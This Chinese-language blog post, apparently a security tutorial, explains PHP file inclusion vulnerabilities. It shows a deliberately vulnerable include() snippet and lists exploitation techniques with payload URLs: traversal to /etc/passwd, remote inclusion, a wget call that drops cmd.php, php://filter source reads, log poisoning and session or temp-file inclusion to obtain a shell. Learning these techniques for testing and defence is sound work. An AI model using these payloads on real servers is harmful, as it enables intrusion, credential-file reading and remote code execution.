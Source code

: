 ```yaml
---
title: 文件包含漏洞(File Include)
date: 2018-10-12
tags: 
layout: post
---
```



## 产生原因：
由于在编写代码时避免麻烦就需要把公用的一段代码写到一个单独的文件里面，然后供其他文件需要时直接包含调用
## 重要函数：
**Include()**：包含并运行指定的文件，包含文件发生错误时，程序警告但会继续执行。
**Include_once()**：包含并运行指定文件，会检查文件是否已经被导入，如果导入后面的便不会再导入。
**Require()**:包含并运行指定文件，包含文件发生错误时，程序直接终止执行。
**Require_once()**:和require类似，但只导入一次
## 利用方法：
### 1.本地文件包含：
```
<?php
    $file = $_GET['file'];
    if(isset($file)){
        include("$file");
    }else{
        echo "file fail";
    }
```
**将包含的文件名改为本地的其他文件时，可以直接达到访问	 
同理可以输入
`http://192.168.168.110/file_include1.php?file=../../../etc/passwd`
直接查看本地用户的密码文件（当然前提是fifle_include1.php拥有足够的权限）**
### 2．远程文件包含：

`http://192.168.168.110/file_include1.php?file=http://地址/文件名`

**Php.ini文件中的allow_url_fopen和allow_url_include为ON才可以执行**
### 3.包含一个创建文件的php	
`http://192.168.168.10:8081/vulnerabilities/fi/?page=http://192.168.168.110/cmd.php?cmd=wget http://192.168.168.110/ -O cmd.php`

## 黑盒测试手法：
**单纯从url判断，url中path、dir、file、pag、page、archive、p、eng等相关字符时可能存在该漏洞**
### 本地包含漏洞的利用
1、	包含同服务器中上传的jpg、txt、rar等文件，这个是最理想的情况了。

2、包含系统的各种日志，如apache日志，文件系统日志等 其中apache当记录格式为combined，一般日志都会很大，基本无法包含成功。包含log是有自动化攻击程序的。
其中鬼子的博客中有提到一个空格的问题。
>《邪恶的空格-PHP本地文件包含漏洞的新突破口》 
 http://huaidan.org/archives/1144.html 

解决空格问题其实把一句话base64加密后再写入就可以执行了。

3、包含 /proc/self/environ . 这个环境变量有访问web的session信息和包含user-agent的参数。user-agent在客户端是可以修改的。参考：
>《Shell via LFI – proc/self/environ method》
 http://hi.baidu.com/root_exp/blog/item/9c0571fc2d42664fd7887d7d.html  

4、包含由php程序本身生成的文件，缓存、模版等，开源的程序成功率大。

5、利用本地包含读取PHP敏感性文件，需要PHP5以上版本。如看到“config”的源码如下
`index.php?pages=php://filter/read=convert.base64-encode/resource=config`
特别的情况用到readfile() 函数不是包含执行，可以直接读源码。

6、利用phpinfo页面getshell。一般大组织的web群存在phpinfo的机会挺大的。
poc和介绍参考：
>《利用phpinfo信息LFI临时文件》
 http://hi.baidu.com/idwar/blog/item/43101de153370126279791f2.html

7、利用包含出错，或者包含有未初始化变量的PHP文件，只要变量未初始化就可能再次攻击 具体见：
>《include()本地文件包含漏洞随想》
 http://www.2cto.com/Article/200809/29748.html

8、结合跨站使用
`index.php?pages=http://127.0.0.1/path/xss.php?xss=phpcode` （要考虑域信任问题）

9、包含临时文件文件。这个方法很麻烦的。参考：
>《POST method uploads》
 http://www.php.net/manual/en/features.file-upload.post-method.php 

解决临时文件删除方法：慢连接 ***（注：前提是 file_uploads = On，5.3.1中增加了max_file_uploadsphp.ini file_uploads = On，5.3.1中增加了max_file_uploads，默认最大一次上传20个）***
 **windows格式** ：win下最长4个随机字符( ‘a’-’z’, ‘A’-’Z’, ’0′-’9′）如： c:/windows/temp/php3e.tmp
 **linux格式** ：6个随机字符( ‘a’-’z’, ‘A’-’Z’, ’0′-’9′） 如：/tmp/phpUs7MxA
慢连接的两种上传代码参考：
>《PHP安全之LFI漏洞GetShell方法大阅兵》
http://www.myhack58.com/Article/html/3/62/2011/32008_2.htm  

10、当前实在找不到写权限目录时候，注入到log中再寻找写权限目录。如注入到`log.
Linux: index.php?pages=/var/log/apache/logs/error_log%00&x=/&y=uname
windows: index.php?pages=..\apache\logs\error.log%00&x=.&y=dir`
>具体参考《PHP本地文件包含(LFI)漏洞利用》
http://kingbase.org/blog/php_local_file_inclusion_exploit

11、使用php wrapper例如php://input、php://filter、data://等包含文件 在 **《PHP 5.2.0 and allow_url_include》http://blog.php-security.org/archives/45-PHP-5.2.0-and-allow_url_include.html** 其中文中提到的allow_url_fopen和allow_url_include只是保护了against URL handles标记为URL.这影响了http(s) and ftp(s)但是并没有影响php或date 这些url形式。

12、LFI判断目录是否存在和列目录，如
`index.php?pages=../../../../../../var/www/dossierexistant/../../../../../etc/passwd%00`
这个方法在TTYshell上是可以完全是可以判断的，但是在URL上有时候不可行。即使不存在dossierexistant也可以回显passwd内容。
 `FreeBSD 《directory listing with PHP file functions》http://websec…ress.com/2009 … php-file-functions/ 列目录
`存在逻辑判断的时候，如不存在该目录就会返回header.php+File not found+footer.php 存在就会返回header.php+footer.php。这种逻辑很符合程序员的习惯。曾经用找到了一个目录很深的日志获得shell。

13、包含SESSION文件，php保存格式 sess_SESSIONID 默认位置是 **/tmp/(PHP Sessions)**、**/var/lib/php/session/(PHP Sessions)**、 **/var/lib/php5/(PHP Sessions)** 和 **c:/windows/temp/(PHP Sessions)** 等文件中。

14、包含 /proc/self/cmdline 或者/proc/self/fd/找到log文件 （拥有者为root，默认情况要root才能访问）
具体参考：
> Local File Inclusion – 《Tricks of the Trade》
http://labs.neohapsis.com/2008/07/21/local-file-inclusion-%E2%80%93-tricks-of-the-trade/  

还有其他提到包含/var/log/auth.log的，但是这个文件默认情况也是644.

15、包含maillog 通常位置/var/log/maillog 这个方法也很鸡肋，具体参考：
>《local file inclusion tricks 》

16、包含固定的文件，非常鸡肋，为了完整性也提下。如，可用中间人攻击。


> **参考文章：https://www.2cto.com/article/201304/204158.html**
	
